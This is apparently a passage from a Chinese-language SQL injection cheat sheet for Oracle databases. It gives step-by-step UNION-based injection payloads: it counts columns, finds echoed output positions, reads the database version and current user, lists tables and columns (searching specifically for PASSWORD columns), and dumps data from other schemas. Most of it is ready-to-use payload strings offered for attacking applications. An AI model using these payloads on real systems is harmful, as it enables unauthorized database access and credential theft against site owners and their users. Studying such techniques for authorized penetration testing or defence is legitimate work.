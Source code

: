 ```txt
Select data from (selEct rownum as limit,PASSWORD||chr(35)||id||chr(35)||列名1||chr(35)||列名2||chr(35)||列名3 as data from 表名        //使用||一次性查出一堆数据
```

## oracle联合查询

（以下内容为可union select，有回显的情况下）

```txt
判断字段数：
order by N (数字型或者注释可用)   union select null,null,null  from ... (引号包裹且注释符不可用)

确定字段N的值后，and 1=2 union select NULL,NULL,.... from dual 再把这些NULL逐步的替换成数字，变成数字报错的话，就用字符去试，最终确定所有字段的数据类型

找到回显位置后，我们可以通过把回显位置的数字换成下列语句来获取信息：
获取数据库版本：select banner from sys.v_$version where rownum=1

获取操作系统版本：select member from v$logfile where rownum=1
获取当前连接数据库的用户：select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual
...

信息收集完毕，接下来来获取表的信息:
select table_name from user_tables where rownum=1

select table_name from user_tables where rownum=1 and table_name<>'第一个表名'

或者我们想要快一点的话，就像报错注入一样，获取到所有表的名字：
select data from (select rownum as limit,table_name||'--->'||column_name as data from user_tab_columns where column_name like '%PASSWORD%') where limit =N

获取列的信息：
select column_name from user_tab_columns where table_name='manage' and rownum=1

select column_name from user_tab_columns where table_name='manage' and rownum=1 and column_name<>'第一个列名'

快一点的方法：
select data from (select rownum as limit,column_name as data from user_tab_columns whEre table_name=你刚才查到的tablename) where limit =N

从而可以获得所有的列名。

获取数据:
and 1=2 union select 1,2,列名,4,5,6 from 表名

快一点的方法就是通过使用||，来一次性查出多个列中的数据。
获取其他的数据库:
select owner from all_tables where rownum=1
select owner from all_tables where rownum=1 and owner<>'第一个数据库库名'
从而就可以获取到所有的数据库
```
